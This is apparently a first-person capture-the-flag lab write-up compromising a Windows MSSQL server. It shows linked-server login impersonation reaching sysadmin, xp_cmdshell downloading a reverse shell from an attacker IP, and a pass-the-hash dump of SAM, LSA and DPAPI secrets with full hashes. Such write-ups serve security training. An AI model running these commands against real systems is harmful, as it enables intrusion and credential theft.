



As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT     STATE SERVICE       REASON         VERSION
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 64
1433/tcp open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-01T02:48:05
| Not valid after:  2056-04-01T02:48:05
| MD5:     0495 d716 bf9a f810 4e0b acee 3014 5069
| SHA-1:   c0ea b3bd e302 98d3 ab10 d0a7 073b 5287 ccd5 12f1
| SHA-256: e7e1 5d8e 0a26 8a5e 3602 eb7d a036 0679 628d 599e c7c4 d19e 3186 d199 5957 8338
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQfC8j48F555VBTxpG2wC9DDANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwNDAxMDI0ODA1WhgPMjA1NjA0MDEwMjQ4MDVaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBALHAlTHY
| bCTAnwyiOm9oZlbrfpK94XQlukFPf3rj1+8t54witjRKvMQy6nk1rVYU66Sg8xG3
| nJzSWErnR0wZ13VwQr9UPjCWJSFRVIsks0IrW7fmSix/Nh/Ppv9e25GESeIpbPJS
| wRxPTMc3DiUmfg+ljWkGAul7DUe5CgM0Yv/sDshhzlDwZ1Lq6edvGnsEf8507wN7
| 3KlOsXzjMdpCjQCSJio1DQIbEGQZ9LhvEWk6sW1XvQggPV3RS+UnKuCpwFiK2yeH
| wcwMaVed28uMU4eMGfNl3JGUTFCC+a85+z+TBs1BmB4tmRBqpUWf4+JpidUvtQ4a
| evw6R18DpJxZVtc2LfKoKhxuEjDAt3t1Lbf2DQHWKJKf022hMNg6s5XOlfxvGtGr
| rJd2KdPmHQjsByNZum50pxWXTKTWKWhMXXiCShwJUbKrvL27g/2Ga7Jnq5vsZyJ7
| RoDoieW5qgqxtcyZ+EsxIbHOYjJ4mOsGTk7Rehf0WmMwelLbJoaRxwSTAQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQCuaZAW6vKGRjhnnRKfnp0LNZrP0mBnuzOdlQ6J
| ldo9Xsm357vr+AWMFFe2gxQat76lSp7YBTcerVHAKHfV8uvPTNCflV8bydqP+ma0
| pn6kCz/lnFDV0Qka6VdXun9ErpGkcz5J7Ot+hN/eNCzY9YJQ2b0YJChAY02QXICH
| nvUz4BbMlQG9ZHbFSzLcngjUG5BFTOe8mns1JkZcU/ibxE7WQ8C4/xcABMpok1Qi
| Y75qHATyrbE5PTFNf/lupBoabuu4snW/DsuEa8qHKwzwIjmMT8IS/UQ4z/2o1Z6Y
| 9SbDOaau6gf9ueKqgiZXjWwVDPZnNRN9wjEANX/SNR/stGXPTrerXZLTN5yvG/CY
| hVR+bdcF1Su/nVFVZ5Xbtv6hUT1oPY1ltO2Lzog6p3ma/fYxHF9BPwJQawRLZZJ1
| dBqUwzbtMRjxYYtB5J5+cAF4Uwe2fJOrq3VOQqD43Vg8L3LLP072t6oyYRgG3N+R
| lWfoz8aKDJph79P2oW4ej6ZPK4k=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-04-01T13:26:51+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   172.16.41.250:1433: 
|     Target_Name: EU-IFRIT
|     NetBIOS_Domain_Name: EU-IFRIT
|     NetBIOS_Computer_Name: SQL03
|     DNS_Domain_Name: eu-ifrit.vl
|     DNS_Computer_Name: SQL03.eu-ifrit.vl
|     DNS_Tree_Name: eu-ifrit.vl
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   172.16.41.250:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EU-IFRIT
|   NetBIOS_Domain_Name: EU-IFRIT
|   NetBIOS_Computer_Name: SQL03
|   DNS_Domain_Name: eu-ifrit.vl
|   DNS_Computer_Name: SQL03.eu-ifrit.vl
|   DNS_Tree_Name: eu-ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T13:26:11+00:00
|_ssl-date: 2026-04-01T13:26:51+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SQL03.eu-ifrit.vl
| Issuer: commonName=SQL03.eu-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:45:30
| Not valid after:  2026-09-30T02:45:30
| MD5:     5bfc d2e2 ff9a 84a7 2803 eb10 3cab 2ab0
| SHA-1:   be0e b630 63b0 73f8 b978 ba8b 9485 2bd0 6d62 0a89
| SHA-256: 48f5 c11c 87ec b986 dbd5 034c 57c9 0a49 1be1 43b6 a466 9c7b 6498 135b efe0 8786
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQHOU/N05XHplDRBOk6nhZWTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFTUUwwMy5ldS1pZnJpdC52bDAeFw0yNjAzMzEwMjQ1MzBaFw0y
| NjA5MzAwMjQ1MzBaMBwxGjAYBgNVBAMTEVNRTDAzLmV1LWlmcml0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuBxxAiCihQo3lEQhfdp90kZ9L6M0
| 3F6pFaAzLh1TSkchU6v4ouf1M4ojhEZKa1V6RvYoAJWI5CaihYiEauNnuIzcowy8
| rJuCwsLrrn84Y8AsYpBaxXcH8tIv+gzHr3lxYO/d5NNMjNCWqLERh7Q1vOZvrBOE
| uahqKA3g54zsy4MaI2gHZNuSDinNHiKgdwdeEXpF4jEz/Ui/I2EaglmDAsOGjKPK
| akarNwvbbQ1i2o9bbOHrZZkiBUYzGWlhwVFn3FI12O/N967KZpbC44qQJEQCH1+Z
| 2SRHljSKgoEwrJ5qYJRDNdTIP0myhJbNasyqK8KdN2DKGRxe+4MensOcLQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAD8xLn1bpzGoZ7HDbqMHlbVykpR9cuAcIFy4dHEbd56oGyGl2LpC
| LoBTqE6T8/somRmx5PIUmBX6LHZmAaqkbrtgLDNo6YNcEiCFJTpLi4xlHc/E0HdY
| SaFdBd0QM+rAtC8mQLOpYowZjFKoyYRsppuPWAwoaFiztGlGhM2r6b+mmQ//4BTL
| iywnFFMm6FdiWBRr9FR0FS8Zbws9fPUfPT1WRtOGiiS2Law8tE5e0UIfFIKw/vgN
| Z+4kpBaF+4BDk0W7igPvbdjAGMpbADqC9tq0KSGQg+YTJs1AtroO7+D2p6V4Z3f/
| 6siFZsSB78AEx//u8EA9m3r1ZTV52hvYACw=
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=135%CT=%CU=%PV=Y%G=N%TM=69CD1D1B%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=I%CI=I%TS=A)
SEQ(SP=106%GCD=1%ISR=10B%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)

Uptime guess: 40.870 days (since Thu Feb 19 17:33:40 2026)
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 49347/tcp): CLEAN (Timeout)
|   Check 2 (port 13831/tcp): CLEAN (Timeout)
|   Check 3 (port 53237/udp): CLEAN (Timeout)
|   Check 4 (port 36615/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2026-04-01T13:26:13
|_  start_date: N/A

TRACEROUTE
HOP RTT      ADDRESS
1   14.60 ms 172.16.41.250


```

# MSSQL

I am using Jack's credentials to enumerate(so far as a guest) the MSSQL and I can see the presence of a custom development database?

```bash
QL (EU-IFRIT\Jack.Smith  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1   
dev01                    0   
SQL (EU-IFRIT\Jack.Smith  guest@master)> 


---------   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
entity_name   subentity_name   permission_name                             
-----------   --------------   -----------------------------------------   
database                       CONNECT                                     
database                       VIEW ANY COLUMN ENCRYPTION KEY DEFINITION   
database                       VIEW ANY COLUMN MASTER KEY DEFINITION       
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> SELECT * FROM dev01.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> 

```

But it is not so interesting so far, next I could try to check for common enumeration spots like links and so on and here I can see I can login as the dev user(which is owned of the dev01 database and csn lead to SA), plus I see a linked server to SQL07:

```bash
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
SQL03               SQLNCLI            SQL Server    SQL03               NULL                 NULL           NULL      
SQL07.IT-IFRIT.VL   SQLNCLI            SQL Server    SQL07.IT-IFRIT.VL   NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_impersonate
execute as   database   permission_name   state_desc   grantee               grantor   
----------   --------   ---------------   ----------   -------------------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        EU-IFRIT\Jack.Smith   dev       
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_users
UserName              RoleName   LoginName             DefDBName   DefSchemaName       UserID                                                           SID   
-------------------   --------   -------------------   ---------   -------------   ----------   -----------------------------------------------------------   
dbo                   db_owner   dev                   master      dbo             b'1         '                           b'453b2f75c959da49a91e15b23b79ec88'   
EU-IFRIT\Jack.Smith   public     EU-IFRIT\Jack.Smith   master      dbo             b'5         '   b'0105000000000005150000009bfe9a30ed5fb7edaae3056f28050000'   
guest                 public     NULL                  NULL        guest           b'2         '                                                         b'00'   
INFORMATION_SCHEMA    public     NULL                  NULL        NULL            b'3         '                                                          NULL   
sys                   public     NULL                  NULL        NULL            b'4         '                                                          NULL   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_owner
Database   Owner   
--------   -----   
master     adm     
tempdb     adm     
model      adm     
msdb       adm     
dev01      dev     
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> 


```

Performing a NTLM spoofing shows that the MSQL is executed on behalf of the GMSA user:



But from a quick AD analysis seems like this user does not posses interesting permissions so far.  Another attempt of using the linked server tells me I have to become SA or another user before:

```bash
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
SQL03               SQLNCLI            SQL Server    SQL03               NULL                 NULL           NULL      
SQL07.IT-IFRIT.VL   SQLNCLI            SQL Server    SQL07.IT-IFRIT.VL   NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> use_link SQL07.IT-IFRIT.VL
ERROR(SQL03): Line 1: Incorrect syntax near '.'.
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> use_link "SQL07.IT-IFRIT.VL"
ERROR(SQL07): Line 1: Login failed for user 'NT AUTHORITY\ANONYMOUS LOGON'.
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> 
```

Now I am logged in as local user DEV which BTW is the owner of that Dev01 database:

```bash
QL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> enum_logins
name                  type_desc       is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
-------------------   -------------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
adm                   SQL_LOGIN                 1          1               0             0            0              0           0           0           0   
dev                   SQL_LOGIN                 0          0               0             0            0              0           0           0           0   
EU-IFRIT\Jack.Smith   WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0   
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> exec_as_login adm
ERROR(SQL03): Line 1: Cannot execute as the server principal because the principal "adm" does not exist, this type of principal cannot be impersonated, or you do not have permission.
SQL (EU-IFRIT\Jack.Smith  EU-IFRIT\Jack.Smith@dev01)> exec_as_login dev
SQL (dev  dbo@dev01)> enum_owner
Database   Owner   
--------   -----   
master     adm     
tempdb     adm     
model      adm     
msdb       adm     
dev01      dev     
SQL (dev  dbo@dev01)> 

```

Now here I was a bit wrong because my custom database is not Trustworty:

```bash
SQL (dev  dbo@dev01)> 
SQL (dev  dbo@dev01)> SELECT name, is_trustworthy_on FROM sys.databases WHERE name = 'dev01';
name    is_trustworthy_on   
-----   -----------------   
dev01                   0   
SQL (dev  dbo@dev01)> 

```

But I can login on the linked server:  


As you see I could impersonate the ADM user but it is disabled:

```bash
QL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> enum_links
SRV_NAME   SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE   SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
--------   ----------------   -----------   --------------   ------------------   ------------   -------   
SQL07      SQLNCLI            SQL Server    SQL07            NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> enum_impersonate
execute as   database   permission_name   state_desc   grantee     grantor   
----------   --------   ---------------   ----------   ---------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        bridge_it   adm       
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> enum_logins
name        type_desc   is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
---------   ---------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
adm         SQL_LOGIN             1          1               0             0            0              0           0           0           0   
bridge_it   SQL_LOGIN             0          0               0             0            0              0           0           0           0   
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   adm         master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   
sys                  public     NULL        NULL        NULL            b'4         '    NULL   
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> enum_owner
Database   Owner   
--------   -----   
master     adm     
tempdb     adm     
model      adm     
msdb       adm     
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> xp_cmdshell "whoami"
ERROR(SQL07): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> 


```

But apparently impersonating ADM@SQL07(which resides in the Parent realm IT) allowed me to get back to SQL03 as ADM user and I am SA:

```bash
SQL >"SQL07.IT-IFRIT.VL" (bridge_it  guest@dev01)> exec_as_login adm
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@dev01)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@dev01)> 


```

But wait, I was supposed to get SQL03 not the SQL07?

```bash
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> xp_cmdshell whoami
output                   
----------------------   
nt service\mssqlserver   
NULL                     
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> xp_cmdshell hostname
output   
------   
SQL07    
NULL     
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> 

```

But since there is a defender I can't just get a powershell revshell, I need to get a custom revshell :

```bash
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.9/RevShell.exe -OutFile C:\Windows\Tasks\RevShell.exe;
output   
------   
NULL     
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> xp_cmdshell "powershell -c ls C:\Windows\Tasks";
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
NULL                                                                               
    Directory: C:\Windows\Tasks                                                    
NULL                                                                               
NULL                                                                               
Mode                 LastWriteTime         Length Name                                                                    
----                 -------------         ------ ----                                                                    
-a----          4/2/2026   4:35 AM          12288 RevShell.exe                                                            
NULL                                                                               
NULL                                                                               
NULL                                                                               
SQL >"SQL07.IT-IFRIT.VL" (adm  dbo@master)> 


```

And I have a shelll:



I will temporary move to the SQL07 machine.

# Last fight

Now with the credentials obtained by the domain pwnage I can get to dump all the secrets from this machine:

```bash
└─$ netexec smb sql03.eu-ifrit.vl -u Administrator -H d05ff1e30127c8d43e6b1ab5d22454c7 --sam --lsa --dpapi
SMB         172.16.41.250   445    SQL03            [*] Windows Server 2022 Build 20348 x64 (name:SQL03) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.250   445    SQL03            [+] eu-ifrit.vl\Administrator:d05ff1e30127c8d43e6b1ab5d22454c7 (Pwn3d!)
SMB         172.16.41.250   445    SQL03            [*] Dumping SAM hashes
SMB         172.16.41.250   445    SQL03            Administrator:500:aad3b435b51404eeaad3b435b51404ee:0c16c5a9eadfa75c673cd2c49e4be1e2:::
SMB         172.16.41.250   445    SQL03            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.250   445    SQL03            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.250   445    SQL03            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:79340a3c4e9f47479b3bac0ee4786163:::
SMB         172.16.41.250   445    SQL03            [+] Added 4 SAM hashes to the database
SMB         172.16.41.250   445    SQL03            [*] Dumping LSA secrets
SMB         172.16.41.250   445    SQL03            EU-IFRIT.VL/Administrator:$DCC2$10240#Administrator#1fc678372c56462c9421933effae158f: (2024-07-14 11:51:33)
SMB         172.16.41.250   445    SQL03            EU-IFRIT.VL/gMSASQLService$:$DCC2$10240#gMSASQLService$#4620407b3a361017b94e41ebb9226871: (2026-04-06 02:10:43)
SMB         172.16.41.250   445    SQL03            EU-IFRIT\SQL03$:aes256-cts-hmac-sha1-96:a3b121e2eac37e5349ad55767038faa3a4c699c283a5d5ac78be1cdeb2076abb
SMB         172.16.41.250   445    SQL03            EU-IFRIT\SQL03$:aes128-cts-hmac-sha1-96:95015374c656dd1140a33c2a57d0dc31
SMB         172.16.41.250   445    SQL03            EU-IFRIT\SQL03$:des-cbc-md5:1a809876dfc8f261
SMB         172.16.41.250   445    SQL03            EU-IFRIT\SQL03$:plain_password_hex:9d4da14199eab3ab23e56e9ee0bf9bc6125d61af484cae1dd0f9036ed78caf43166b384ccf7621be0425848ae2bc3f17c5e9937ca96a259b18702625157f0254d5e50f3200abdc8f2072eeb21bbc418596d84801b5cc6276ea51f1ae63a756c37e9e3396017c0b37fc7a04c93db13677911da6fbf9f7c529d236628b53e9b018f13c3cd85800275378fad5534f4deba2250381bce026b2eebe9828eac2c1ee6b75c7f04789c79776941f2a074281727fa04362d507467f47d974990e5d89593d930f72a72bf62322484b5defddba72ed9c1509905ccebef0675194736e04f6b2f6969e657004a4bd8d77446de888fca9
SMB         172.16.41.250   445    SQL03            EU-IFRIT\SQL03$:aad3b435b51404eeaad3b435b51404ee:f29b2d7a0a51793e041c6c8d77adda99:::
SMB         172.16.41.250   445    SQL03            dpapi_machinekey:0x05c7cbe5134608304d77b5205f6170264e07c2c1
dpapi_userkey:0x0301224b5d4e7a41891d87980e8a2ec6bba98ea3
SMB         172.16.41.250   445    SQL03            _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_035201259bf93b6eb6e45d1808c0430a1802b9023bc63b0be4e0b28b1d419f83:6b09676e0c8e6ec7d7fb7d0c4d7c792d39d957cc2d209c1cad844d1541a34b65bd9bfcf960963e84fcea8ea79103e4fe21f629e38576077ae81c9d75db9c12772917828fbcdaff0e417f5271b0f3da0cbbcd152092c88af2afb1e8e481a8caff6905cce934aacfae23e6b39e2cfca3465ba9927495675d6d137c5cb3caf22c049f289f764cc78bd4da0693d2743a73b834166288d7f20de71b537bdf9afb800150bbb94c88660abc1d2ef98520535e77b26c76c4f27327b76cac7c6ddc0af2eec996baed9031b2f9a1c53fcb2ffc5890f372f15196c0a3714c7c400d0f6d6b5de431d53df55e8291590428d3fc589c4c
SMB         172.16.41.250   445    SQL03            _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_035201259bf93b6eb6e45d1808c0430a1802b9023bc63b0be4e0b28b1d419f83:01000000240200001000120114021c026a17b57f764db69f83ccda28af0a7cb6541c18dac606ff8c34662375bcb793f8e67f5f9d4917fbecadddd5243bad3fc8044bbe7cb0d662e903d4e694fefdcbbd66a88aa32e747d0c424f464e3f10f7e4a4cb194d03952ea0f9f4b23f04db00b22534bb11b702fa89a8fdcc01d1375efde5550907ce26f7a733077872369ba3e89196e830eb3c72d220848770ae80a9a2654e2012ce1eae3901dc621c83bf279045f09c87cbd14da6882913f3fec3c71df8a091595f8c5771464c96d756eb4cc8a8df5b115392f1008fc297e4fd075347a5587ebbad07a5d81ccf75be53936f4c34747959ba2b178b20d6dfcaf75c5731f476c839de2274ac148180ca23968bae00001e99fc8d9320a5e0d2af7ef0240b0ae6d75eb94ddaddd1480dbaa01e4355039fdcd17960c6ab83526b6058dce30731acd452d571e477307156a2243eda9cbb791a4ab2ce627f397c4c9e678c41d4557f871d8892911821d1c03e4596efc288606b3adecc832505e77afe2af2170a93b8befd1cc88db3cd53aaf1524df50dfd68e938301165adf10fbea08659fa136bf2f694241f037e835d5b642fe13a7511b36f2625cf0b7a7db52a29fc1f04190891058d14afb12cd3bac86f959926b5b2574e84acec00fa61c4af2adf15bc17ffe63c8a06d46bed32889dce0c7086083bfe6700b333ffb6ffe6fc7cfca3294ab1c3ba1ec42ba4a24bd752884851a2fa5f320000f91d9b4ec8160000f9bfca9bc7160000
SMB         172.16.41.250   445    SQL03            GMSA ID: 035201259bf93b6eb6e45d1808c0430a1802b9023bc63b0be4e0b28b1d419f83 NTLM: 6d1b0fcb8cb5a042774f6505bf8b9faa
SMB         172.16.41.250   445    SQL03            [+] Dumped 10 LSA secrets to /home/millycash/.nxc/logs/lsa/SQL03_172.16.41.250_2026-04-06_104143.secrets and /home/millycash/.nxc/logs/lsa/SQL03_172.16.41.250_2026-04-06_104143.cached
SMB         172.16.41.250   445    SQL03            [+] Loading domain backupkey from nxcdb...
SMB         172.16.41.250   445    SQL03            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.250   445    SQL03            [+] Got 9 decrypted masterkeys. Looting secrets...

```

And grab another flag:

```bash
evil-winrm-py PS C:\Users\Administrator\desktop> ls


    Directory: C:\Users\Administrator\desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         4/24/2025  11:34 PM             39 flag.txt                                                              
-a----          7/7/2024   4:59 AM           2308 Microsoft Edge.lnk                                                    


evil-winrm-py PS C:\Users\Administrator\desktop> cat flag.txt
IFRIT{ab2c0a0d96e27ef7e1ebef4a67c09824}
evil-winrm-py PS C:\Users\Administrator\desktop>

```

Now except this I do not see more that this on this machine and for this reason I will concentrate myself on the last domain takeover since I have the data dump from Bloodhound.

&nbsp;

&nbsp;

&nbsp;

&nbsp;